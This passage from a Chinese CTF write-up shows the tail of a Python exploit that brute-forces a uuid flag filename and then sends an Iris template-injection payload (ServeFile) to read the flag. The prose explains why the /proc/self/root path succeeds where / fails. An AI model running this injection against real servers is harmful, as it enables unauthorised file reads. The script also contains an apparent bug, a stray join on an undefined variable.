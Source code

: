 ```python
            break

    assert hit_c != None
    xs[i] = hit_c
    print(filename)


filename = ""
k = 0
for j in range(N):
    if j == hyphen_positions[k]:
        filename += "-"
        k += 1
    filename += xs[j]
filename = "".join(ys)
print(filename)  # Get the file name of `/$(uuidgen)-$(uuidgen)`


# https://github.com/kataras/iris/blob/v12.2.0-beta3/context/context.go#L5128
payload = '{{ .Ctx.ServeFile "/{{FILENAME}}" }}'.replace('{{FILENAME}}', filename)

url = f"{BASE_URL}/start?formatter=" + urllib.parse.quote(payload)
res = httpx.get(
    url,
    follow_redirects=True,
)
print(res.text)  # Get a flag!
```

![image-20221026162452607](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20221026162452607.png)

那么在学习完大佬的Exp后我又很奇怪为什么这里要通过`/proc/self/root`找到flag文件所在的位置呢，直接`/`不行么？（下文中`xxxx-xxx-xx`代表根据uuid生成的Flag文件名）

先说结论，直接用`/`确实不行，在经过一番测试之后发现`/proc/self/root`是指向`/`的软链接，而这里我们通过`/proc/self/root`/可以正常回显，在Glob匹配正确时返回

```
yaml: unmarshal errors:
  line 1: cannot unmarshal !!str `we{3d85...` into map[string]interface {}
```

而在Glob匹配错误时返回`catalog: empty languages`

但是如果这里用`/`或者`/root/../`去尝试匹配的话，会发现无论如何都是`catalog: empty languages`。

所以我们先通过打断点，把通过`proc/self/root`和`/`去匹配两种方法进行比较，在打了两个小时断点后发现如果传入`/proc/self/root/xxxx-xxx-xx--xx`这样格式的filename

![image-20221027132150315](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20221027132150315.png)

因为`i18n`的`Loader`函数本身是用于加载语言文件的，这里会将带有`-`的文件名按`-`分别解析，而他这个库本身应该是设定了对于名称带`-`的语言文件，按照`-`解析出每个部分字符串后，每个部分字符串的长度不会超过4个字符，所以这里如果是直接`/xxxxxx-xxxx-xx`的文件名字，第一部分是8个字符，因此最终也会像`Glob`匹配不到语言文件一样，同样的返回`catalog: empty languages`。
